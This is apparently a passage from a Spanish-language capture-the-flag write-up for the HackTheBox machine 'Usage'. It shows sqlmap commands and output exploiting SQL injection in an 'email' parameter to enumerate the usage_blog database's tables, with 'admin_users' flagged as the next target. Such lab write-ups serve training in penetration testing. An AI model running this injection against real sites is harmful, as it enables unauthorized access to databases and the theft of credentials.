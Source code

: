 ```bash
[*] performance_schema
[*] usage_blog

[00:13:51] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 166 times
[00:13:51] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

[*] ending @ 00:13:51 /2025-03-07/
```

Comprobaremos las tablas de la base de datos `usage_blog` en el cual nos encontramos con diferentes tablas. De las tablas enumeradas, la que nos llama la atención es la `admin_users`.

```bash
❯ sqlmap -r request --level 5 --risk 3 --threads 10 -p email --batch --dbms MySQL -D usage_blog --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:15:13 /2025-03-07/

...[snip]...
       
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

[00:22:02] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 761 times
[00:22:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

[*] ending @ 00:22:02 /2025-03-07/
```
